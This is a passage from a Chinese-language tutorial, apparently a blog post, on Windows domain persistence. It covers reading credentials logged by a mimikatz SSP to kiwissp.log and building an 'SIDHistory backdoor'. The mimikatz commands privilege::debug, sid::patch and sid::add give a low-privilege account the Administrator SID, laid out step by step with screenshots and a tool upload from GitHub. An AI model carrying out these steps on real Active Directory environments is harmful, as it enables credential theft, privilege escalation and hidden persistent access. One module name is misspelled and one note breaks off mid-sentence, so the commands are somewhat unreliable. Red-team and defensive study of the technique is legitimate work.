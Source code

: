 但是却找不到

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512001934.png)

查看了一下注册表，没写进去

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512120929.png)

去掉`\`之后，就成功写入了。

之后重启，访问`c:\windows\system32\kiwissp.log`即可得到

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512122631.png)

## 8. SIDHistory域后门

> 每个用户帐号都有一个关联的安全标识符（简称SID），SID 用于跟踪安全主体在访问资源时的帐户与访问权限。为了支持 AD 迁移，微软设计了 SID History 属性，SID History 允许另一个帐户的访问被有效的克隆到另一个帐户。通过 SID History 可让用户拥有不同身份的权限，在单域中同样有效。

查询域内用户

```powershell
dsquery user
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512122908.png)

将工具上传  https://github.com/lucasbiella/admodule

导入模块，查看用户的`SID History`

```powershell
Import-Module activedirector
Get-ADUser liukaifeng01 -Properties sidhistory
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512012718.png)

使用Mimikatz将Administrator的SID添加到所选用户的SID History属性中

> 1. 在使用mimikatz注入SID之前需要使用`sid::patch`命令修复NTDS服务，否则无法将高权限的SID注入低权限的用户的SID属性；
> 2. mimikatz在2.1版本之后将`misc::addsid`模块添加到了
> 3. NTDS：New Technology   Directory Service,NT

```powershell
# mimikatz
privilege::debug
sid::patch    //以下命令如果执行失败则使用该命令修复NTDS服务
sid::add /sam:yyds /new:administrator
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512013009.png)

这时候再看一下

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512013057.png)
